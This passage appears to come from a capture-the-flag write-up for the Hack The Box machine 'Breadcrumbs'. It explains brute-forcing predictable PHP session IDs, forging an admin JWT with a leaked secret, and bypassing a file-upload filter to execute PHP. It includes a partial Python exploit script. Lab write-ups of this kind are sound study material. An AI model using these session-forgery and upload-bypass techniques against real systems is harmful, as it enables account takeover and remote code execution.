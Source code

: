 ```php
// $decoded = JWT::decode($jwt, $secret_key, array('HS256'));
// var_dump($decoded);
// echo $decoded;
?>
```

Loop Through all possible session IDs and when u get a positive hit, save that session IDs and jwt token in cookie storage and refresh the page.

![](/assets/img/posts/breadcrumbs/file-upload.png)

Than upload the file, intercept the request and change the file extension and forward that request. Go to `/portal/uploads/` and execute that php file.

Here's my exploit script
```py
import argparse
import string
import sys
import jwt
import requests as r
import random
import hashlib

parser = argparse.ArgumentParser()
url = 'http://10.10.10.228/portal'
admin_name = 'paul'
secret = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
payload = {"data": {"username": admin_name}}
encoded_jwt = jwt.encode(payload, secret, algorithm="HS256")
# decoded_jwt = jwt.decode(encoded_jwt, secret, algorithms=["HS256"])
rnd_word = ''.join(random.choices(string.ascii_letters + string.digits, k=8))


def makesession(username):
    maximum = len(username) - 1
    seed = random.randint(0, maximum)
    key = "s4lTy_stR1nG_" + username[seed] + "(!528./9890"
    session_cookie = username + hashlib.md5(key.encode()).hexdigest()
    return session_cookie


def admin(admin_session):
    cookies_dict = {"PHPSESSID": admin_session, "token": encoded_jwt}
    admin_rsnp = r.get(f'{url}/index.php', cookies=cookies_dict)
    return admin_rsnp.text

```